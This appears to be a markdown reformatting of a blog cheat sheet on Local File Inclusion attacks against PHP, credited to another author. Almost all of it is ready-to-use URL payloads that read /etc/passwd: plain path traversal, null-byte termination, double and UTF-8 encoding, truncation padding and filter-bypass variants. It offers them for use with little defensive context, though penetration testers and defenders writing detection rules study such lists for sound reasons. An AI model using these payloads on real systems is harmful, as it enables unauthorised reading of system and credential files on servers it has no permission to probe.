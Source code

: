 This is not mine. I reformatted it to .md from the source below.
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
credit: Mr. X

## Basic LFI

In the following examples, we include the ```/etc/passwd``` file, check the ```Directory & Path Traversal``` chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

## Null byte

⚠️ In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

## Double encoding

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

## UTF-8 encoding
```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

## Path and dot truncation
On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

## Filter bypass tricks

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
